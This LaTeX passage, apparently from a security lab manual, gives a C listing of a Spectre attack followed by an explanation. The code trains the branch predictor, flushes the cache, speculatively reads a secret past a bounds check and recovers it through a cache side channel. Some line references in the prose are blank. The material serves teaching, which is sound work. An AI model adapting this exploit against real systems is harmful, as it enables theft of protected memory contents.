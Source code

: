 \begin{lstlisting}[caption=\texttt{SpectreAttack.c}, label=spectre:list:spectreattack]
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char    *secret    = "Some Secret Value";     (*@\ding{192}@*)
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  }
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) {
      _mm_clflush(&bound_upper);
      _mm_clflush(&bound_lower);
      restrictedAccess(i);
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }

  s = restrictedAccess(index_beyond);      (*@\ding{193}@*)
  array[s*4096 + DELTA] += 88;             (*@\ding{194}@*)         
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  (*@\ding{195}@*)
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Most of the code is the same as that in Listing~\ref{spectre:list:outoforder}, so
we will not repeat their explanation here. The most important part is 
in Lines , , and . Line 
calculates the offset of the secret from the beginning of the buffer~(we assume that 
the address of the secret is known to the attacker; in real attacks, there are many ways for 
attackers to figure out the address, including guessing).
The offset is definitely beyond the scope of the buffer, so
it is larger than the upper bound of the buffer or smaller than the 
lower bound (i.e., a negative number). The offset
is fed into the \texttt{restrictedAccess()} function.
Because we have trained the CPU to take the true-branch inside
\texttt{restrictedAccess()}, the CPU will return \texttt{buffer[index\_beyond]}, which contains
the value of the secret, in the out-of-order execution. 
The secret value then causes its corresponding element in \texttt{array[]} to
be loaded into cache. All these steps will eventually be reverted, so 
from the outside, only zero is returned from \texttt{restrictedAccess()}, not the value of the secret.
However, the cache is not cleaned, and \texttt{array[s*4096 + DELTA]} is still kept in
the cache. Now, we just need to use the side-channel technique to figure out which element of the
\texttt{array[]} is in the cache.  


